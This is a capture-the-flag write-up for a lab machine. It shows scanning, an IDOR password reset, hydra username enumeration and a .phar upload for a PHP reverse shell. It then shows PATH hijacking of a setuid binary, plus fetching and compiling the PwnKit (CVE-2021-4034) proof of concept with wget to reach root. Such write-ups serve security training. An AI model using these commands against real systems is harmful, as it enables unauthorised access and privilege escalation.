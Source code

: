 ## CTF 03
> Capture The Flag.
> 
> IP: 192.168.10.16
> 
> The flag is stored in the flag.txt file.

> Capture The Flag.
> 
> IP: 192.168.10.16
> 
> The flag is stored in the root.txt file.

### Scanning
As a first step, all open ports are scanned.

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 17:55 CEST
Nmap scan report for 192.168.10.16
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

The scan shows that there are two running services, a webserver and SSH. The webserver is now scanned using gobuster.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 17:56:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/config               (Status: 301) [Size: 315] [--> http://192.168.10.16/config/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.10.16/css/]   
/index.php            (Status: 200) [Size: 810]                                   
/js                   (Status: 301) [Size: 311] [--> http://192.168.10.16/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.16/upload/]
                                                                                  
===============================================================
2022/06/13 17:56:26 Finished
===============================================================
```

With gobuster we found the interesting discovery of the "upload" directory which opens the possibility to maybe upload a file to the machine.

### Registering
In a browser the website is opened and an account with the following data is created.

```
username: pascal
email: pascal@bosym.de
password: pascal
```

![Register an account](ctf3/register.png)

### Changing passwords
Using the authenticated account and burbsuite, we manage to change the password of other users by changing the id in the post request using burp. Changing the password of user 1 and 2, since our account is 3.

```
POST /dashboard.php?id=3 HTTP/1.1
Host: 192.168.10.16

password=root&id=1
```

Now to find the corresponding usernames, we bruteforce creating new users using hydra. If the username exists the registration will fail:

```bash
$ hydra -L /usr/share/wordlists/simple-users.txt -p root $IP http-post-form
	"/register.php:username=^USER^&password=^USER^
	&email=^USER^%40bosym.de:Register Successful" -V
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
[80][http-post-form] host: 192.168.10.16   login: GUEST   password: root
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-14 12:54:39
```

With the output the username should either be `admin` or `GUEST`.

With this information, we login with `admin:root` and discovered that you can upload a file to the server.

### Reverse shell
The upload field shows an error, if a file without a correct ending (jpg, png, gif) is uploaded.

> Sorry , Allow Ex : jpg,png,gif

Weirdly enough, it works with `.phar`, which is bascially a `.php` script. So we upload a php reverse shell and connect it to the attacker machine.

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -lah /home
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 16  2021 .
drwxr-xr-x 20 root     root     4.0K Jul 15  2021 ..
drwxr-xr-x  4 darkhole darkhole 4.0K Jul 17  2021 darkhole
drwxrwxrwx  5 john     john     4.0K May 15 15:40 john

$ ls -lah /home/john
total 76K
drwxrwxrwx 5 john     john     4.0K Jun 14 15:32 .
drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
-rw------- 1 john     john     2.0K Jun 14 14:40 .bash_history
-rw-r--r-- 1 john     john      220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john     john     3.7K Jul 16  2021 .bashrc
drwx------ 2 john     john     4.0K Jul 17  2021 .cache
drwxrwxr-x 3 john     john     4.0K Jul 17  2021 .local
-rw------- 1 john     john       37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john     john      807 Jul 16  2021 .profile
drwxrwx--- 2 john     www-data 4.0K Jun 14 15:15 .ssh
-rwxrwx--- 1 john     john       33 Jun 14 15:06 file.py
-rwxrwx--- 1 john     john        8 Jul 17  2021 password
-rwsr-xr-x 1 root     root      17K Jul 17  2021 toto
-rw-rw---- 1 john     john       44 May 15 15:36 user.txt

```

We found that there are interesting files, which are only readable to `john`. Also there is a `toto` binary file. Using `strings toto`, we can see that the calls `setgid`, `setuid` and `system` are being used. When executed the output is:

```bash
$ /home/john/toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

So it sets the uid for the `system('id')` command. From the [Linux man page](https://man7.org/linux/man-pages/man3/system.3.html) for system under caveats it says:

> Do not use system() from a privileged program (a set-user-ID or
> set-group-ID program, or a program with capabilities) because
> strange values for some environment variables might be used to
> subvert system integrity.  For example, PATH could be manipulated
> so that an arbitrary program is executed with privilege.

So we change the PATH variable, create a "fake" `id` (which executes `bash`), execute it and change the PATH back.

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

$ echo "#!/bin/bash
/bin/bash -i" > ./id

$ chmod +x id

$ PATH=/home/john ./toto

john@darkhole:/home/john$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:
	/usr/bin:/sbin:/bin:/snap/bin

john@darkhole:/home/john$ cat password
root123

john@darkhole:/home/john$ cat user.txt
cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}
```

Now we can login via ssh with `john:root123` using `ssh john@192.168.10.16` to close the reverse shell.


### Privilege escalation

With "john" as user, run [linpeas](https://github.com/carlospolop/PEASS-ng) to search for ways to escalate privilege.

The logs show a possibility for CVE-2021-4034.

Since gcc and make are available, we download the [PoC for PwnKit](https://github.com/arthepsy/CVE-2021-4034), compile and run it.

```bash
john@darkhole:~$ wget https://raw.githubusercontent.com/arthepsy/
	CVE-2021-4034/main/cve-2021-4034-poc.c
2022-06-14 16:24:48 (116 MB/s) - ‘cve-2021-4034-poc.c’ saved [1267/1267]

john@darkhole:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc

john@darkhole:~$ ./cve-2021-4034-poc 
# id
uid=0(root) gid=0(root) groups=0(root),1001(john)

# ls -lah /root
total 44K
drwx------  6 root root 4.0K Jul 17  2021 .
drwxr-xr-x 20 root root 4.0K Jul 15  2021 ..
-rw-------  1 root root 3.0K Jun 14 15:29 .bash_history
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K Jul 17  2021 .cache
drwxr-xr-x  3 root root 4.0K Jul 17  2021 .local
-rw-------  1 root root   18 Jul 15  2021 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 15  2021 .ssh
-rw-r--r--  1 root root   44 May 15 15:37 root.txt
drwxr-xr-x  3 root root 4.0K Jul 15  2021 snap

# cat /root/root.txt
cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}
```